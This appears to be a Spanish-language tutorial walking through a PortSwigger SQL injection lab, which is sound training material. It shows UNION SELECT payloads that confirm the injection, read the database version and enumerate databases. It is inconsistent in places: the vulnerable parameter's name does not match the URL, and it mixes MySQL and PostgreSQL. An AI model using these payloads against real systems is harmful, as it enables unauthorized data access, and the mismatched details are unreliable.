 
---
## Laboratorio Portswigger


Para ilustrar con ejemplos realistas vamos a seguir el laboratorio gratuito de [Portswigger](https://portswigger.net/web-security/all-labs)

Todas las pruebas se realizaron en la URL:

```ini
https://web-security-academy.net/filter?category=Product
```


---

## Confirmación de la vulnerabilidad


**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un UNION SELECT.

```sql
' UNION SELECT 1,2-- 
```

**Explicación:**

Si la inyección tiene éxito, la página mostrará los valores `1` y `2` en la tabla. Esto confirma que:

- La aplicación concatena directamente el valor en una consulta SQL.

- El número de columnas es 2.

- Podemos continuar con otras inyecciones más complejas.


---

## Obtener versión de MySQL


```sql
' UNION SELECT 1, version()-- 
```

![Captura](./Imágenes/web_7.png)


---

## Listar todas las bases de datos



```sql
' UNION SELECT datname, NULL FROM pg_database-- 
```
